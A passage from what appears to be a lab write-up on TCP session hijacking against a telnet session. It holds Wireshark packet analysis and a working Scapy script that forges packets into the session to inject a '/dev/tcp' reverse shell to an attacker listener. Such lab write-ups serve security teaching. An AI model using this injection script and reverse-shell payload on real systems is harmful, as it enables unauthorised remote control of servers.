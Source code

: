 You will need to set up a listener that will catch the response of the command you execute on the server. When the program successfully injects the command, the response is sent to the listener.

***TCP session highjack program***

![hijack-code](https://github.com/iukadike/iukadike.github.io/assets/58455326/df15d548-ca5c-4939-8e48-687565d62f80)

***TCP session highjack nc listener***

![highjack-listener](https://github.com/iukadike/iukadike.github.io/assets/58455326/fe21c411-4852-4946-b7d5-8117d36e8c85)

***TCP session highjack wireshark***

![highjack-wireshark](https://github.com/iukadike/iukadike.github.io/assets/58455326/fa91fee2-6a43-4b4a-95bd-fa0b645d2003)

***TCP session highjack wireshark***

![highjack-r-wireshark](https://github.com/iukadike/iukadike.github.io/assets/58455326/35a5e1b4-c067-4381-a051-9359b9253388)

The following can be observed from the Wireshark screenshots:
- `packet 58` is the packet sent to the program that is injected into the client's TCP session
- `packet 59` is the server's response to packet number 58, but to the client
- `packet 60` is the client's packet that we highjacked
- `packet 61` is the server's retransmission packet 59 because it expected an `ack` from the client but received none
- since both server and client are expecting an `ack` but never get any, they keep retransmitting the packets in a loop. This has the side effect of making the actual client terminal unusable after the attack.
- `packet 62` to `packet 69` is the server establishing a TCP session with the nc listener, sending the response, and terminating the session.

<br>

### Creating Reverse Shell using TCP Session Hijacking
From the above experiment, once the payload is injected via TCP session highjack, the following happens:
- the code is run on the server
- a TCP session is opened between the server and our listener
- the output of the code is sent to our listener
- the TCP session is closed

Once this happens, there is no way of executing another code on the server except we run our exploit again and hope our victim tries connecting. To bypass this, we can go for running one command that enables running many more commands without running our exploit again. One such is a reverse shell.

Using TCP session highjacking, one can send a reverse shell as a payload.

```python
#!/usr/bin/env python3
from scapy.all import *

def send_cmd(pkt):
    if not pkt[IP][TCP].payload:
        newpkt = IP() / TCP() / Raw(load = '\r/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1\r')
        newpkt[IP].src = pkt[IP].src
        newpkt[IP].dst = pkt[IP].dst
        newpkt[TCP].sport = pkt[TCP].sport
        newpkt[TCP].dport = pkt[TCP].dport        
        newpkt[TCP].flags = 'PA'
        newpkt[TCP].seq = pkt[TCP].seq
        newpkt[TCP].ack = pkt[TCP].ack
        send(newpkt, verbose=0)
        print('injected reverse shell...')
    
sniff(iface = 'br-fee11e059dc7', filter = 'tcp dst port 23 && (not ether host 02:42:e4:2c:cc:83)', prn = send_cmd)
```
